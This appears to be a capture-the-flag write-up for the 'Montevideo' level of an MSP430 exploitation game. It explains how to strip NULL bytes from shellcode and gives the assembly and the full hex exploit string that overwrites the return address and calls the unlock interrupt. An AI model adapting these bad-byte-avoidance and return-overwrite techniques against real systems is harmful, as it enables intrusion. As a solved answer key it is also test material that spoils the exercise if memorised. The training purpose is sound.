 # Montevideo

This challenge is centered around bad-byte filtering of shellcode.

Nothing has really changed from *Whitehorse* in this challenge except that we can no longer use NULL bytes in our input. This is pretty common when you are targeting string functions as NULL signals the end of the string. In order to disallow the usage of your pre-filtered string, your data is also `memset` with NULL prior to you gaining control with the return address overwrite. This is only an exercise in shellcode tweaking to eliminate NULLs. My approach here was to switch to an immediate add larger than our target `0x7F` and then subtract, push, and call `INT` once again. The shellcode is as follows:

```asm
3450 8001      add	#0x180, r4 // We want something higher than 0x7F
3480 0101      sub	#0x101, r4 // We have to subtract a number without NULLs as well
0412           push	r4 // Push it to the stack
b012 4c45      call	#0x454c // Call INT and profit
4141           mov.b	sp, sp // Our padding can't be NULLs either, we don't really even care if this is code, but happily, 0x4141 gives us a NOP which means clean exit of our shellcode
```

The solution to this challenge is `34508001348001010412b0124c454141ee43`